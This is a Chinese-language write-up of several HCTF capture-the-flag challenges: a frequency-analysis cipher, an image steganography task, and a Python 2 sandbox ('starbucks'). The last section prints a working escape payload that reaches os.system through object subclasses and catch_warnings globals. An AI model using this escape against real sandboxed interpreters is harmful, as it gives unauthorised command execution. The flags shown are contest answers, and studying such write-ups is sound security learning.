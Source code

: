 解密整篇文章：

    in cryptanalysis, frequency analysis is the study of the frequency of letters or groups of letters in a ciphertext. the method is used as an aid to breaking classical ciphers.

    ...

    the first known recorded explanation of frequency analysis (indeed, of any kind of cryptanalysis) was given in the 9th century by al-kindi, an arab polymath, in a manuscript on deciphering cryptographic messages.[3] it has been suggested that close textual study of the qur'an first brought to light that arabic has a hctf{enjoyyourselfinhctf}.characteristic letter frequency.[4] its use spread, and similar systems were widely used in european states by the time of the renaissance. by 1474, cicco simonetta had written a manual on deciphering encryptions of latin and italian text.[5] arabic letter frequency and a detailed study of letter and word frequency analysis of the entire book of qur'an are provided by intellaren articles.

    ...

flag：`hctf{enjoyyourselfinhctf}`

## FIND（200pt）

题目给了张比较大的图片，提示给了是隐写，直接掏出神器 `Stegsolve.jar`。

在该图片的其它色度上隐藏了一张二维码，微信扫一扫即可得到flag。

flag：`flag{hctf_3xF$235#\x5e3}`

## starbucks（400pt）

tips：nc 115.29.191.81 15878

    ~ ⮀ nc 115.29.191.81 15878
    Python 2.7.6 (default, Mar 22 2014, 22:59:56)
    [GCC 4.8.2] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)

nc上去一看是python里code模块的一个交互式解释器，但是测试一番后发现删除了某些symbol，并且在交互下没有输出，只有在正常exit()时候才会返回交互输出。

网上搜索了一下发现了与该题类似的一个Paper：

[https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst](https://github.com/PyCodersCN/PyCodersCN/blob/3328d1ed08d33232e1eca0d92f679508f002c809/issue17/eval-really-is-dangerous.rst)

同时在google上又发现了picoctf上的一道题目与此类似（为何又是这样）：

[http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140](http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140)

直接根据文章中的POC即可执行命令：

```python
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals["linecache"].__dict__["os"].system('ls')
```
